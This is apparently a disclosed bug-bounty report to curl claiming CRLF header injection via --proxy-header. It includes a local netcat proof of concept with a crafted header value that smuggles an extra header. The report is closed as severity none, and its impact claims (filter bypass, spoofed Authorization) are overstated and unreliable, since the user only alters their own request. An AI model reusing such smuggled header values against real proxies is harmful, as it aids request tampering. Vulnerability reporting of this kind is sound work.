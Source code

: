 # CRLF Injection in `--proxy-header` allows extra HTTP headers (CWE-93)

## Report Details
- **Report ID**: 3133379
- **URL**: https://hackerone.com/reports/3133379
- **State**: Closed
- **Severity**: none
- **Submitted**: 2025-05-07T22:24:22.322Z
- **Disclosed**: 2025-05-08T08:21:52.339Z

## Reporter
- **Username**: oblivionsage
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
Hello Team,

There is a bug in `curl` where a user can inject **new HTTP headers** into a proxy request by using special characters in the `--proxy-header` option.

This is done by adding `\r\n` (carriage return + line feed) inside the header value. This breaks the HTTP format and lets the user create more headers from a single line



#  What’s the Problem?

The problem happens because `curl` **does not check** for `\r` or `\n` in the input. So if a user puts:

```bash
--proxy-header $'X-Test: hello\r\nX-Evil: owned'
```

The proxy sees **two headers**:

```
X-Test: hello
X-Evil: owned
```

This is **not supposed to happen**



#  How the Code Works (with file paths and lines)

Here’s how `curl` processes the `--proxy-header` input:



## Main Function

`src/tool_main.c` line 238

Entry point of the program:

```c
int main(int argc, char *argv[])
```

## Calling `operate()`

`src/tool_main.c` line 284

```
result = operate(&global, argc, argv);
```
##CLI Parsing

`src/tool_operate.c`, line 3186

```
parse_args(global, argc, argv);
```

##Handling `--proxy-header`

`src/tool_getparam.c` line 2766

```c
case C_PROXY_HEADER:
    err = parse_header(global, config, cmd, nextarg);
```


##Passing the value

`src/tool_getparam.c`, line 1281

```
err = add2list(&config->proxyheaders, nextarg);
```

##No Filtering Happens


`src/tool_paramhlp.c`, line 614–615

```
ParameterError add2list(...) {
    struct curl_slist *newlist = curl_slist_append(*list, ptr);
```

At this point, the raw input (even if it includes \r\n) is passed as-is to `curl_slist_append()`, and then into the final HTTP request

There is no check to block newline injection



#  Proof of Concept

# 1. Start a fake proxy listener:

```bash
nc -lvp 8080
```

# 2. Run curl with a payload header:

```bash
curl --proxy http://127.0.0.1:8080 \
     --proxy-header $'X-Evil: val\r\nInjected-Header: pwned' \
     http://example.com
```

Attachment:

{F4325956}

# 3. Netcat output:

```
Listening on 0.0.0.0 8080
Connection received on localhost 54198
GET http://example.com/ HTTP/1.1
Host: example.com
User-Agent: curl/8.13.0
Accept: */*
Proxy-Connection: Keep-Alive
X-Evil: val
Injected-Header: pwned

```

It proves that one CLI input caused **two** headers

Attachment:

{F4325954}







##  Suggested Fix

In this file:

`src/tool_paramhlp.c`, inside `add2list()`, around line **615**:

Add a simple check:

```c
if(strchr(ptr, '\r') || strchr(ptr, '\n'))
    return PARAM_INVALID_HEADER;
```

This will block all `\r` or `\n` inside header input.

## Impact

This bug allows the user to inject raw HTTP headers into proxy requests.

By using a single command-line input, a user can add multiple headers.This breaks the normal HTTP format and can be used to:

Bypass security filters (WAF, proxy rules)

Inject spoofed headers like X-Forwarded-For, Authorization

Poison logs on the proxy

 Bug is easy to test

The issue is real and  affects live network traffic

 Similar bugs in other tools got CVEs


Tested on `curl 8.13.0` (May 2025), on Kali Linux


Thanks for reviewing. Let me know if you need help verifying the fix

## Attachments
- image.png
- image.png
